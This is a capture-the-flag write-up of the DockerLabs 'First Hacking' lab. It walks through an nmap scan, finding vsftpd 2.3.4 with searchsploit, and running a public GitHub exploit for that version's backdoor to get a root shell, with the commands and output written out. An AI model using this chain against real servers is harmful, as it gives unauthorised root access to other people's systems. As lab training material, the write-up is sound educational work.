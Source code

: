 # Write Up First Hacking

**Difficulty:** Super easy<br>
**Link to dockerlabs:** https://dockerlabs.es/

## Setting the enviroment
First of all we deploy the machine with the script that comes when downloading the machine
```
❯ chmod +x auto_deploy.sh
❯ sudo ./auto_deploy.sh firsthacking.tar

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Once deployed, we create the firsthacking folder, go inside and use the *mkt* utility that creates the *nmap*, *content*, *exploits* and *scripts* folders.

```
❯ mkdir firsthacking-dockerlabs
❯ cd firsthacking-dockerlabs
❯ mkt
❯ ls -l
drwxrwxr-x godack godack 4.0 KB Thu Aug 14 19:20:29 2025 content
drwxrwxr-x godack godack 4.0 KB Thu Aug 14 19:20:29 2025 exploits
drwxrwxr-x godack godack 4.0 KB Thu Aug 14 19:20:29 2025 nmap
drwxrwxr-x godack godack 4.0 KB Thu Aug 14 19:20:29 2025 scripts
```
## Recon
The first thing we do is a general reconnaissance with nmap on the victim machine, to obtain the open ports.
```
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts

PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 64
```

Once we have the open ports, we perform a more thorough scan using reconnaissance scripts to obtain the services on each port and the version they are running.

```
❯ extractPorts allPorts
[*] Extracting information...
 
     [*] IP Address: 172.17.0.2
     [*] Open ports: 21
 
[*] Ports copied to clipboard

❯ nmap -sCV -p21 172.17.0.2 -oN targeted
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-14 19:17 CEST
Nmap scan report for 172.17.0.2
Host is up (0.00018s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 2.71 seconds
```

In this way we discover that the service running on port 21 (FTP port) is vsftpd version 2.3.4.

## Exploit
Once we have recognized the ports and services, we realize that when searching with searchsploit, the vsftpd service with version 2.3.4 is a vulnerable service.
```
❯ searchsploit vsftpd 2.3.4
-------------------------------------------------------- ---------------------------------
 Exploit Title                                          |  Path
-------------------------------------------------------- ---------------------------------
vsftpd 2.3.4 - Backdoor Command Execution               | unix/remote/49757.py
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)  | unix/remote/17491.rb
-------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

In this way, we searched on GitHub for exploits for this vulnerability, and we found this repository, we downloaded it and executed it (https://github.com/Hellsender01/vsftpd_2.3.4_Exploit).

```
❯ git clone https://github.com/Hellsender01/vsftpd_2.3.4_Exploit.git
❯ sudo python3 -m pip install pwntools
❯ python3 exploit.py 172.17.0.2
[+] Got Shell!!!
[+] Opening connection to 172.17.0.2 on port 21: Done
[*] Closed connection to 172.17.0.2 port 21
[+] Opening connection to 172.17.0.2 on port 6200: Done
[*] Switching to interactive mode
$ whoami
root
$  
```

And finally we have access to the machine and we don't have to scale privileges because we are already root user!!